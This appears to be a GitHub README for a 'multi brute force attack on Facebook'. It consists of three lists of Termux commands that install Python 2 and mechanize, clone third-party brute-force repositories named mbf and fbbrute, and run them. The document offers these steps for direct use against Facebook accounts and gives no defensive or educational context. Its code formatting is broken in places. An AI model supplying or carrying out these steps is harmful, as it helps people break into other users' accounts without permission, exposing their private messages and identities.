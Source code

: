 # MULTI-BRUTE-FORCE-ATTACK-ON-FACEBOOK  

So Let's Start....  
Step By Step  
First of All Download Termux from Google Play and Install it  After installing just give these commands to Termux  
And Run one by one  

![PicsArt_10-25-08 29 55](https://user-images.githubusercontent.com/75029023/111865355-9061ca80-89a1-11eb-91b9-6c5f35e01cfe.png)

# COMMAND LIST 1 
```
$ apt update && apt upgrade  
```
$ pkg install python2 
```
$ pkg install git  
```
* $ pip2 install mechanize  
* $ git clone https://github.com/pirmansx/mbf  
* $ cd mbf 
* $ python2 MBF.py  

# COMMAND LIST 2  
* $ pkg update 
* $ pkg upgrade 
* $ pkg install python2  
* $ pkg install perl 
* $ pkg install curl 
* $ pkg install mechanize 
* $ pip2 install requsets 
* $ git clone https://github.com/Senitopeng/fbbrute 
* $ cd fbbrute 
* $ python2 fbbrute.py  

# COMMAND LIST 3 
* $ apt update && apt upgrade  
* $ pkg install pip 
* $ pkg install python 
* $ pkg install python2  
* $ pip2 install mechanize 
* $ pkg install git 
* $ git clone https://github.com/hnov7/mbf 
* $ cd mbf 
* $ ls 
* $ python2 mbf.py 
* $ 1 
* $ y

![44804662_315681345917191_1671247044175462400_o](https://user-images.githubusercontent.com/75029023/111865398-b4251080-89a1-11eb-802a-d00f8e6ed33c.jpg)

